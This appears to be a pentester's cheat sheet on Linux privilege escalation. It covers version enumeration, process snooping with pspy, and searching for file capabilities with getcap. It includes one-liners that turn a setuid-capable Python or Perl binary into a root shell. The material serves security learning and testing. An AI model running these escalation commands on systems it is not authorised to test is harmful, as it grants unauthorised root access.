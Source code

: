 ### Linux version

##### Distribution 
cat /etc/issue
cat /etc/*-release
cat /etc/lsb-release
cat /etc/redhat-release
##### Kernel Version
at /proc/version
uname -a
uname -mrs
rpm -q kernel
dmesg | grep Linux
ls /boot | grep vmlinuz-

### Linux Process

1. pspy
[pspy](https://github.com/DominicBreuker/pspy#how-it-works) is a command line tool designed to snoop on processes without need for root permissions. It allows you to see commands run by other users, cron jobs, etc. as they execute. 
It heavily uses the [inotify API](https://man7.org/linux/man-pages/man7/inotify.7.html) provides a mechanism for monitoring filesystem events.
Inotify can be used to monitor individual files, or to monitor directories.


### Linux Capabilities 
1. getcap 
The [getcap](https://www.man7.org/linux/man-pages/man8/getcap.8.html) command displays the name and capabilities of each specified file.
To recursively check the capabilities of all files you have access, use the following command **getcap -r / 2>/dev/null**
For instance, you can find Python or Perl that are assigned to root and you can do the following then:
- ./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
- ./perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'


*If you don't know, now you know : [Capabilities](https://linux.die.net/man/7/capabilities)*

Starting with kernel 2.2, Linux divides the privileges traditionally associated with superuser into distinct units, known as *capabilities*, which can be independently enabled and disabled. Capabilities are a per-thread attribute.

Some capabilities to look for are:
- **CAP_DAC_OVERRID**: Bypass file read, write, and execute permission checks.
- **CAP_DAC_READ_SEARCH**: Bypass file read permission checks and directory read and execute permission checks
- **CAP_SETGID**: Make arbitrary manipulations of process GIDs and supplementary GID list
- **CAP_SETUID**: Make arbitrary manipulations of process UIDs

#####source:

https://nxnjz.net/2018/08/an-interesting-privilege-escalation-vector-getcap/
https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/

#####Temp

ip addr

-> docker0